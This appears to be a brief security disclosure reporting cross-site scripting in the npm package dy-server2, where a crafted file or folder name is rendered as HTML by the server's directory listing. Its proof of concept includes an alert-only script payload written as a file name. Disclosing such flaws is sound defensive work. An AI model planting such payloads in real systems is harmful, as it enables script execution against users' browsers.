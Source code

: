 # Description

`Cross Site Scripting` in `dy-server2`

# Proof of Concept

1. Install package from npm: npm i -g dy-server2
2. Create folder or file with name: `<img src=x onerror=alert(1)>`
3. Start server: dy-server2 -p 8888
4. Open website and the code will execute
